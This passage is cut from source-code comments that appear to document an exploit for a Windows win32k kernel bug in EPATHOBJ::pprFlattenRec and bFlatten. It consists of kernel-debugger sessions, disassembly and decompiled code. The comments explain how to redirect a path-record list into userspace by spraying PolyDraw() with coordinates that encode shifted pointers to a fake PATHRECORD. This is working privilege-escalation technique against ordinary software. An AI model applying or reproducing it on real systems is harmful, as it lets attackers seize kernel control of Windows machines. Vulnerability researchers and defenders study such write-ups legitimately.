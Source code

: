 //   verifying the buffer is filled with recognisable values when it returns:
//
//   kd&gt; u win32k!EPATHOBJ::pprFlattenRec+1E
//   win32k!EPATHOBJ::pprFlattenRec+0x1e:
//   95c922b8 e8acfbffff      call    win32k!EPATHOBJ::newpathrec (95c91e69)
//   95c922bd 83f801          cmp     eax,1
//   95c922c0 7407            je      win32k!EPATHOBJ::pprFlattenRec+0x2f (95c922c9)
//   95c922c2 33c0            xor     eax,eax
//   95c922c4 e944020000      jmp     win32k!EPATHOBJ::pprFlattenRec+0x273 (95c9250d)
//   95c922c9 56              push    esi
//   95c922ca 8b7508          mov     esi,dword ptr [ebp+8]
//   95c922cd 8b4604          mov     eax,dword ptr [esi+4]
//   kd&gt; ba e 1 win32k!EPATHOBJ::pprFlattenRec+23 "dd poi(ebp-4) L1; gc"
//   kd&gt; g
//   fe938fac  41414140
//   fe938fac  41414140
//   fe938fac  41414140
//   fe938fac  41414140
//   fe938fac  41414140
//
//   The breakpoint dumps the first dword of the returned buffer, which matches the
//   bezier points set with PolyDraw(). So convincing pprFlattenRec() to move
//   EPATHOBJ-&gt;records-&gt;head-&gt;next-&gt;next into userspace is no problem, and we can
//   easily break the list traversal in bFlattten():
//
//   BOOL __thiscall EPATHOBJ::bFlatten(EPATHOBJ *this)
//   {
//     EPATHOBJ *pathobj; // esi () 1
//     PATHOBJ *ppath; // eax () 1
//     BOOL result; // eax () 2
//     PATHRECORD *ppr; // eax () 3
//
//     pathobj = this;
//     ppath = this-&gt;ppath;
//     if ( ppath )
//     {
//       for ( ppr = ppath-&gt;pprfirst; ppr; ppr = ppr-&gt;pprnext )
//       {
//         if ( ppr-&gt;flags &amp; PD_BEZIER )
//         {
//           ppr = EPATHOBJ::pprFlattenRec(pathobj, ppr);
//           if ( !ppr )
//             goto LABEL_2;
//         }
//       }
//       pathobj-&gt;fl &amp;= 0xFFFFFFFE;
//       result = 1;
//     }
//     else
//     {
//   LABEL_2:
//       result = 0;
//     }
//     return result;
//   }
//
//   All we have to do is allocate our own PATHRECORD structure, and then spam
//   PolyDraw() with POINTFIX structures containing co-ordinates that are actually
//   pointers shifted right by 4 (for this reason the structure must be aligned so
//   the bits shifted out are all zero).
//
//   We can see this in action by putting a breakpoint in bFlatten when ppr has
//   moved into userspace:
//